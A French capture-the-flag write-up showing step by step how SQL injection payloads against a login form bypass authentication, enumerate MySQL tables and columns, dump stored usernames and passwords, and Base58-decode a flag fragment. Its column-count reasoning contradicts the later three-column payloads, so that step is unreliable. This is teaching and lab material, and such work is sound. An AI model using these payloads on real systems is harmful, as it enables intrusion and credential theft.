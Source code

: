 ### **SQL Injection et récupération de données sensibles**

Dans ce challenge, on a un formulaire avec deux champs : `username` et `password`. Notre objectif est d'exploiter une faille SQL Injection pour extraire des données sensibles de la base de données.
![Screenshot](images/web_chall_description.png)
---

#### **Étape 1 : Tester une injection basique**

J'ai commencé par tester une injection SQL simple dans le champ `password`. Voici le payload utilisé :

`username=admin&password='OR''='`

**Résultat :**  
Le serveur retourne une liste d’utilisateurs présents dans la base de données :


![Screenshot](images/web_sqli_auth_bypass.png)

---

#### **Étape 2 : Déterminer le nombre de colonnes**

Ensuite, j’ai essayé de déterminer le nombre de colonnes nécessaires pour une requête SQL valide. J'ai utilisé ce payload :

`username=admin&password=' UNION SELECT null, null, null, null, null, null --` 

Cela a produit une erreur, ce qui indique que 5 colonnes sont nécessaires pour une injection valide.
![Screenshot](images/web_column_nb.png)
---

#### **Étape 3 : Obtenir la version de la base de données**

Avec le nombre correct de colonnes, j’ai utilisé un payload pour récupérer la version de la base de données :

`username=a&password=' UNION SELECT 1, @@version, 3-- -` 

**Résultat :**

![Screenshot](images/web_db_version.png)

Cela indique que la base de données utilise MySQL version 5.7.44.

---

#### **Étape 4 : Lister les tables**

Pour lister les tables disponibles dans la base de données, j’ai utilisé le payload suivant :

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -` 

**Résultat :**

![Screenshot](images/web_listing.png)

---

#### **Étape 5 : Lister les colonnes d’une table**

Une fois la table `blueprints` identifiée, j’ai listé ses colonnes avec ce payload :

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -` 

**Résultat :**

![Screenshot](images/web_columns_names.png)
---

#### **Étape 6 : Extraire les données de la table**

J’ai ensuite extrait les données de la table `blueprints` en combinant les colonnes :


`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--` 

**Résultat :**

![Screenshot](images/web_extr_infos.png)

---

#### **Étape 7 : Décoder les données**

En regardant de plus près, j'ai trouvé une chaîne intéressante associée au fichier `secret_key.txt` :

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

En la décodant en **Base58**, j’ai trouvé une partie de la flag.


![Screenshot](images/web_decode1.png)
![Screenshot](images/web_decode2.png)


---

### **Conclusion**

Ce challenge démontre l’impact potentiel d’une vulnérabilité SQLi. Grâce à des payloads bien construits, il est possible d’extraire des informations sensibles comme les noms de tables, de colonnes, et même des données critiques. La dernière étape, consistant à décoder les données trouvées, est la clé pour résoudre le challenge. Toujours vérifier les données sensibles dans les bases de données et appliquer des mesures de protection telles que les requêtes préparées pour éviter de telles attaques.